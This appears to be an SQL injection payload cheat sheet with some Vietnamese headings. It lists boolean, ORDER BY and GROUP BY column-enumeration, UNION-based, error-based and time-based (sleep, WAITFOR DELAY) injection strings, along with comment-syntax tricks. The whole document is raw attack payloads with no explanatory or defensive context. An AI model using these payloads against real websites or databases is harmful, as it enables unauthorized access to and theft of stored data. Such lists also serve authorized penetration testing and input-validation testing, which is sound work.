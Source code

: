 ```
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
Finding the table name
Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
Comments:
#        Hash comment
/*      C-style comment
-- -    SQL comment
;%00    Nullbyte
`        Backtick
```

## Các payload dựa trên lỗi

```
' OR (SELECT COUNT(*) FROM tablename) >= 0 --
' AND (SELECT COUNT(*) FROM tablename) >= 0 --
' AND (SELECT COUNT(*) FROM information_schema.tables) >= 0 --
' OR 1 GROUP BY CONCAT_WS(0x3a, VERSION(), DATABASE(), USER()) HAVING MIN(0) --
' OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),DATABASE(),USER()) HAVING MIN(0) --
' UNION SELECT 1,COUNT(*),CONCAT_WS(0x3a,VERSION(),DATABASE(),USER()) x FROM information_schema.tables GROUP BY x --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 --
```

## Payload Union-based

```
' UNION SELECT 1 --
' UNION SELECT 1,2 --
' UNION SELECT 1,2,3 --
' UNION SELECT 1,2,3,4 --
' UNION SELECT 1,2,3,4,5 --
' UNION SELECT 1,2,3,4,5,6 --
' UNION SELECT 1,2,3,4,5,6,7 --
' UNION SELECT 1,2,3,4,5,6,7,8 --
' UNION SELECT 1,2,3,4,5,6,7,8,9 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13 --
```